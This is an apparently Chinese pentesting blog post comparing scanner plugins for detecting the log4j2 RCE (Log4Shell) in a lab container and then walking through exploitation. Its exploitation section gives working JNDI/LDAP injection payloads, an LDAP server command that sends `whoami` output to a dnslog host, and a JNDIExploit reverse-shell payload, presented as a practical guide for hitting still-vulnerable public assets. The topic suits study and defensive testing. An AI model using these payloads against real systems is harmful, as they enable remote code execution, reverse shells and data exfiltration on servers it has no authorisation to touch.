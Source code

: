 #  【漏洞实战研磨】之细说log4j2   
原创 blue澜  小惜渗透   2025-02-10 10:10  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gNBSibliblUwyftzDU3qicTIrqxJjHic6L20T4xalnGAwN2nMFricVVu4rpFdKrqbnILoAy3Vz1KZ1c9iatibnoVuBETw/640?from=appmsg&wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/JOETR6lhBcwEOSTRfQgiaSbAWOPzwz5IeCk6nQfZAt91RadHD1KC3Q7P4vAIjHdiaqcug6M4SvTIzt1LqoXmuNibQ/640?from=appmsg&wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/8WyGnsaODMVIR8icTXLJSGB3LlQMVaoBFXUas1H2oAszMFyCeauTJsUyoTicPl9F590E339OajvygRr85yshME7Q/640?from=appmsg&wx_fmt=gif "")  
  
say  
  
        最近工作生活学习和研究太多，时间着实有点不够用，而且有些文章现在由于某些因素还不能发还得等等，所以一直是静默状态。  
     
  
      ✅今天新启动一个合集，我为之起名叫【漏洞实战研磨】，这个我之前已经积攒了很多内容，不过一直没发而已。这个合集主要分享对于某个漏洞的细致打磨，比如一个漏洞，如何探测，探测有哪些方式，哪些方式好用，有哪些坑，以及重要的一点如何利用，利用过程又会存在哪些坑，以及对于这些漏洞的经验。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wGWEpySAHSrAiaTMVtoAQegc1kWnWRIuM3p0pQtn6FibQukZn4BaPaY2hoIOgz6IkAqswUNhibM3Ps7mUqiaEQYJCA/640?from=appmsg&wx_fmt=png "")  
  
  
  
🤔log4j2 Rce算是当年轰动一时的核弹级漏洞了，但是经过我亲身的种种经历表明这个nday利用率依然很高，很多大厂的公网资产我前阵子也挖到过，虽然漏洞存在，但是并不是每个人都能发现的，挖洞这东西需要天时地利人和🤣，干扰因素太多，可能有的时候就是别人幸运，你则挖不到😑，所以我写这篇文章来探寻记录一下目前针对该漏洞的探测和利用的最优解。  
### 1.1 探测  
  
✅log4j漏洞的Burp探测插件主流的就那么几款，接下来我分别介绍一下并尝试寻找最优的插件  
  
1️⃣**加载后界面如下，由于编译的时候是Log4j2Scan 0.13.1，所以就以这个版本命名**  
  
地址为：https://github.com/whwlsfb/Log4j2Scan（不建议使用）  
  
![image-20240812105457173](https://mmbiz.qpic.cn/sz_mmbiz_png/mxIibC6HQFwxBzb4MtpicGqY6ZvWGfBPWv2XmVcqceHQVJL5CUzwVBgMuqP7X7y50XibA9h1IWaVfUje9DlSpdyiaQ/640?wx_fmt=png&from=appmsg "")  
  
有一说一这个插件写的还是很不错的，但是实际利用起来还是有一些问题，它可以设置poc格式和Fuzz的地方，但是我在实际使用的时候识别率较低并且发包量巨大，即便有它能识别出来的漏洞，估计也得个10分钟才能展现同时由于它抢占扫描流量，导致其它插件不起作用，如果你比较贪直接将poc和fuzz点满，那么恭喜你你的Burp插件全都静默了🫨，针对于这点你当然可以修改配置达到减少发包量，不过对于稍微不怎么注意这些插件配置和效果的师傅来讲就是个大坑了，毕竟当时我也是后知后觉才发现它的问题的😅  
  
![image-20240812105948855](https://mmbiz.qpic.cn/sz_mmbiz_png/mxIibC6HQFwxBzb4MtpicGqY6ZvWGfBPWvkK3hmCVRFG7Iic8t9FhElYKZH9aq8dNGIctW0iaUvt4KMJWicibsPDe81Q/640?wx_fmt=png&from=appmsg "")  
  
2️⃣**然后也是我之前用了很长一段时间的（找不到地址了），就以log4j2Scan v0.7来命名吧**  
，如下所示，这个插件没有UI界面，查看output能看到具体的Scan信息，效率很高基本上秒出结果  
  
![image-20240812112118002](https://mmbiz.qpic.cn/sz_mmbiz_png/mxIibC6HQFwxBzb4MtpicGqY6ZvWGfBPWvkicicuVbicbrLy6PDGYhg8ZPQ3mMOobv2UOlIicOPhXsVN2yB9dwRJMqjg/640?wx_fmt=png&from=appmsg "")  
  
可以看到它是通过dnslog.cn来判断的，当然很多大厂都已经屏蔽了dnslog.cn，甚至会直接拦截出现dnslog字样的请求  
  
![image-20240812131915245](https://mmbiz.qpic.cn/sz_mmbiz_png/mxIibC6HQFwxBzb4MtpicGqY6ZvWGfBPWvg9LOzQDreIbTfxftibHKYudS1dfooCTJHEYb54Zg2ib4ibbPMZXLkyg0w/640?wx_fmt=png&from=appmsg "")  
  
所以我们做一个测试看看如果拦截dnslog.cn，这个插件还有没有用，我这里不通过iptables而是通过更改本地hosts来模拟，这样比较简单  
  
![image-20240812142236576](https://mmbiz.qpic.cn/sz_mmbiz_png/mxIibC6HQFwxBzb4MtpicGqY6ZvWGfBPWv7ajr93CLYs2fdszxF0qxWguD1cW23FtBicVUFibwQBvY4qpAHTVHJicAw/640?wx_fmt=png&from=appmsg "")  
  
进入到靶场容器内部，确保dnslog.cn被解析到127.0.0.1  
  
![image-20240812142321325](https://mmbiz.qpic.cn/sz_mmbiz_png/mxIibC6HQFwxBzb4MtpicGqY6ZvWGfBPWv4Ew0HOfWl3FQKjmbDb9CcR7ffibHF4BMib2FOTdwSKCqEV0nnSf80ZcQ/640?wx_fmt=png&from=appmsg "")  
  
可以看到已经扫不出来了❌  
  
![image-20240812142758472](https://mmbiz.qpic.cn/sz_mmbiz_png/mxIibC6HQFwxBzb4MtpicGqY6ZvWGfBPWvzq8bqRAcPqQnHNrJuiaYVIAj49K0yAawHkCwz4kyuas9yZCDwSEYiaqg/640?wx_fmt=png&from=appmsg "")  
  
于是，如果大厂屏蔽了dnslog.cn，就这样被错过了，然后我们可以改为下面的yakit继续验证  
  
3️⃣**yakit自带的插件**  
  
  
当我们更改工具，使用yakit里面的插件的时候如下图  
  
![image-20240812121541377](https://mmbiz.qpic.cn/sz_mmbiz_png/mxIibC6HQFwxBzb4MtpicGqY6ZvWGfBPWv8zALEyVJ8DZkibuMRRh8ia0Pic1Y1pkEHbh8ibs4pUNM9yJEZUWFhyFAEw/640?wx_fmt=png&from=appmsg "")  
  
发现可以正常被扫描到，命中两条dnslog--> iyhc.eu.org  
和dgrh3.cn  
  
![image-20240812122109362](https://mmbiz.qpic.cn/sz_mmbiz_png/mxIibC6HQFwxBzb4MtpicGqY6ZvWGfBPWvbC1bRWkLQUxyac2p66GgrFamf4kyYb9oLCJOsibuhnicyxP5On3TDrvQ/640?wx_fmt=png&from=appmsg "")  
  
那么我们继续，通过屏蔽这两个域名来看看如果屏蔽后，还能不能被扫描到，如下修改，这里由于像之前那样修改hosts不能用通配符，只能挨个子域名限制，所以这里改变一下策略，本地起一个dns，然后该靶场走这个dns服务器，具体怎么实现我就不多废话了有兴趣的自己研究吧，或者自己用java写一个，很可惜当我屏蔽了这些地址后，yakit也识别不出来了  
  
![image-20240812181517615](https://mmbiz.qpic.cn/sz_mmbiz_png/mxIibC6HQFwxBzb4MtpicGqY6ZvWGfBPWv64ia62A4JZ6Hgy8hrf9J6j6ia9JZ7mPAAm7DFpwLjn6AtIdotdeEQ8Ew/640?wx_fmt=png&from=appmsg "")  
  
但是其实这里严格来说，yakit就够用了，因为像burp插件的dnslog.cn或者ceye.io这种被禁用的可能性很大，但是yakit的这两个域名其实可用性还是很高的，大部分厂家可能也不会禁用iyhc.eu.org  
和dgrh3.cn  
  
4️⃣**xray和Ez**  
  
其实像我这种平时用burp都用习惯了，测个系统测完为了防止上述情况，再用yakit跑一遍不太现实，但是相信很多师傅测试的时候都会用xray和Ez最后跑一遍，用来查缺补漏，所以这里再看下他们的效果  
  
他们扫描原理差不多，都得搭建返连平台，我这里以xray举例，返连平台建议参考：http://ktear.net/archives/xrayreverse  
  
秒出结果，使用xray来探测也是一个比较好的解决方案，不过就是需要公网服务器搭建返连平台  
  
![image-20240812205425591](https://mmbiz.qpic.cn/sz_mmbiz_png/mxIibC6HQFwxBzb4MtpicGqY6ZvWGfBPWvGZuo68tFaVBY65EF0QanCDHgTHqy71qY1aib3eRdHiad7r98uUExBvEw/640?wx_fmt=png&from=appmsg "")  
  
5️⃣**log4jScan_Modify**  
  
https://github.com/r00tSe7en/log4jScan_Modify  
  
这个是一个魔改版的插件，识别方式就是自己公网vps启一个JNDIMonitor服务，然后这个插件需要将源码里面的监测地址改成自己的，然后自己编译  
  
### 1.2 利用  
  
利用的话可以使用的工具有很多，现有的有https://github.com/wyzxxz/jndi_tool  
  
利用的话直接vps启动ldap服务  
```
java -cp jndi_tool.jar jndi.HLDAPServer xx.xx.xx.xx 80 "curl `whoami`.xxx.dnslog.cn"
```  
  
结果  
  
![image-20240819154422978](https://mmbiz.qpic.cn/sz_mmbiz_png/mxIibC6HQFwxBzb4MtpicGqY6ZvWGfBPWv8BRrIdvfAMWLSXV2qS0EicLfu0Er8bnhJlB5ibW9W0IFAFWMZFvmjzzw/640?wx_fmt=png&from=appmsg "")  
  
然后这里利用jndi_tool  
反弹shell的时候出错，同样的命令在靶场的docker容器里面直接执行就没问题，但是通过ldap却不行，判断应该是>  
符号导致的  
  
然后直接换工具利用JNDIExploit-1.4-SNAPSHOT.jar  
，用Basic/ReverseShell的payload反弹  
  
vps：  
```
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i ip
```  
  
payload：  
```
${jndi:ldap://ldapip:1389/Basic/ReverseShell/反弹vps的ip/端口
```  
  
或者也可以用  
```
${jndi:ldap://ldapip:1389/Basic/Command/Base64/[base64_encoded_cmd]}
```  
  
反弹成功🎉  
  
![image-20240819155946400](https://mmbiz.qpic.cn/sz_mmbiz_png/mxIibC6HQFwxBzb4MtpicGqY6ZvWGfBPWvYOcYOBZTS9UdEPymVniaA5iahIt47zADoxMQ4o9icnGzmHSAWX3mO8wPA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/dB8siaunhHjrNHg8sYVBcWg4fWXg7xZgVCUqPjPl4JJq1icnoRc6gSlYKYgqxMhRuhMfmWR5VyVpE5wADeMwj5IA/640 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/xCVyYvjFyj0KpMSFvRvJASxC4cHetibm3NcOl7JDQVSqlajDR9uGgC8FUw83DTZ3BzA74QbPfsN5jNtjqNN3ryA/640?wx_fmt=gif&from=appmsg "")  
  
  
[在渗透测试中开启透视外挂](https://mp.weixin.qq.com/s?__biz=Mzg3OTcxMjE2NQ==&mid=2247486862&idx=1&sn=7f4d20289e6d19f3182b71df5a42748d&scene=21#wechat_redirect)  
  
  
  
[小程序渗透 小程序sign逆向的两种思路](https://mp.weixin.qq.com/s?__biz=Mzg3OTcxMjE2NQ==&mid=2247487174&idx=1&sn=c0aa1f5fbfe6321d0408ee361c041d36&scene=21#wechat_redirect)  
  
  
  
[Nacos 0day（derby+源码）分析](https://mp.weixin.qq.com/s?__biz=Mzg3OTcxMjE2NQ==&mid=2247486997&idx=1&sn=033bad8f04a30ec56d735d5621f7b930&scene=21#wechat_redirect)  
  
  
